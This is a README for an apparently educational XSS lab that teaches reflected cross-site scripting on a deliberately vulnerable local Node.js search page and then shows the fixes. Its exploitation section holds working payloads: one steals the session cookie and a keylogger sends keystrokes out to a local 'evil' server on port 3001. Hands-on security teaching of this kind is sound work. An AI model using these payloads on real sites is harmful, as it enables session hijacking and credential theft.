


# Cross-site Scripting (XSS)

Example cross-site scripting vulnerabilities in action.


## Requirements

* [Node.js](https://nodejs.org/en/) - you can use either version (LTS or latest)
  * For Windows - use the installation package from the node website
  * For Linux and Mac - use [nvm](https://github.com/creationix/nvm) to install node
* [Git](https://git-scm.com/downloads)


## Getting Started

If you have not already done so, make sure you have all the [requirements](#requirements) from above.

For Windows users, open Git Bash. You will use this program to run all the "terminal" commands you see in the rest of this guide.

For Linux and Mac users, open Terminal.

Now let's get started. In your terminal program, use git to download the project:
```bash
git clone https://github.com/Learn-by-doing/xss.git
```
If successful, a new folder named `xss` should have been created.

Change directory into the new folder:
```bash
cd xss
```

Install the project's dependencies using npm:
```bash
npm install
```

Now we can run the local web server using Node.js:
```bash
node server.js
```
If successful, you should see the following message: `Server listening at localhost:3000`. This means that a local web server is now running and is listening for requests at [localhost:3000](http://localhost:3000/). Open your browser and click the link.

You should see a simple search form. Enter some text then press enter (or click the "search" button). Notice how the search query you entered is shown in the page. This form might be vulnerable to an XSS attack. So let's test it ;)


## What is XSS?

From [OWASP](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)):

> Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

XSS vulnerabilities are generally used to steal sensitive information (login credentials, authentication tokens, personal user data) as well as perform actions on behalf of authenticated users.


## Proof of Concept

Open the developer tools in your browser (F12) and open the "Console" sub-tab.

Copy/paste the following code into the console and run it:
```js
encodeURIComponent('');
```



Copy the output and paste it into the address bar so that the URL looks like this:
```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi!')%22%3E
```
Or you can click [this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi')%22%3E).

If successful, you should see an alert pop-up that says "hi!".

Let's see what else we can do..


## Exploitation

Open the "Application" sub-tab in your browser's developer tools. Under "Storage" -> "Cookies", click "localhost:3000" to show the cookies being saved by the browser for this website.



Notice how there is a cookie named "connect.sid". This is a session cookie set by our local web server. Is it possible for us to access this via the XSS vulnerability? Let's try. Repeat the steps from the "Proof of Concept" section above, but with the following code:
```html

```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E).

If successful, you should see the contents of the session cookie printed in an alert pop-up.

Now before continuing, we will need to start our "evil" web server. Run the following command in a second terminal window:
```bash
node evil-server.js
```

And now try to use the following code with the XSS vulnerability to steal the session cookie:
```html

```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E).

Check the terminal window of the evil server. Do you see the contents of the session cookie?

Fun times!

Here's the JavaScript code from the last example in a readable form:
```js
var img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```

Now let's get even more nasty. Let's try a key-logger:
```html

```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E).

Here's the JavaScript code from the last example in a readable form:
```js
var timeout;
var buffer = '';
document.querySelector('body').addEventListener('keypress', function(event) {
	if (event.which !== 0) {
		clearTimeout(timeout);
		buffer += String.fromCharCode(event.which);
		timeout = setTimeout(function() {
			var xhr = new XMLHttpRequest();
			var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
			xhr.open('GET', uri);
			xhr.send();
			buffer = '';
		}, 400);
	}
});
```

These are very primitive examples, but I think you can see the potential.


## So Why is this Bad?

Imagine instead of localhost:3000, this was your bank's website. And you see a link in an official-looking email. What happens if you click that link? You might be running some malicious code in the context of your bank's website. Not such a big deal if you aren't logged in at that moment. But what if you are? Or what if you enter your login credentials on the page with the malicious code? Beginning to feel a bit paranoid? Good :)


## Mitigation

Let's stop scaring you for a moment and see if we can fix this. In this example project, at the root, the XSS vulnerability is caused by inserting unsafe ("unescaped") HTML into the page. In the `public/index.html` file, you will find the following function:
```js
function showQueryAndResults(q, results) {

	var resultsEl = document.querySelector('#results');
	var html = '';

	html += '<p>Your search query:</p>';
	html += '<pre>' + q + '</pre>';
	html += '<ul>';

	for (var index = 0; index < results.length; index++) {
		html += '<li>' + results[index] + '</li>';
	}

	html += '</ul>';

	resultsEl.innerHTML = html;
}
```
This function is taking the search query (`q`) and inserting it as HTML into the `<div id="results"></div>` element. And since HTML allows JavaScript to be run inline via a number of different attributes, this provides a nice opportunity for XSS.

There are a number of techniques we can use to prevent this particular XSS vulnerability.

We can change our application/website code to treat user input (the `q` parameter) strictly as text content. For example, here is a fixed up version of the above function:
```js
function showQueryAndResults(q, results) {

	var resultsEl = document.querySelector('#results');
	var html = '';

	html += '<p>Your search query:</p>';
	html += '<pre></pre>';
	html += '<ul>';

	for (var index = 0; index < results.length; index++) {
		html += '<li>' + results[index] + '</li>';
	}

	html += '</ul>';

	resultsEl.innerHTML = html;

	var queryTextEl = document.querySelector('#results pre');
	queryTextEl.textContent = q;
}
```
Replace the function in your index.html with this fixed version and try the XSS proof-of-concept again. Now the HTML is printed as text and the alert pop-up is not shown. Great, we fixed this vulnerability! But that's just this vulnerability. There could be more in the rest of our code.

Another technique we can use is [Content Security Policy](https://www.owasp.org/index.php/Content_Security_Policy) declarations to instruct the browser which types of code to run (and from where).

For example, we can instruct the browser to only run JavaScript code from source files on the same domain. To do this, we add a special meta tag to the head of our HTML document:
```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'">
```
But adding this tag to our index.html will break our page, because it disallows the inline JavaScript from running. To fix this, we will need to move our JavaScript to a separate file (ie. `search.js`).

This is a very good solution to stop most XSS vulnerabilities from becoming harmful. But there is a major issue. Most applications will break when suddenly adding these directives. Changes have to be made to get the applications working again.
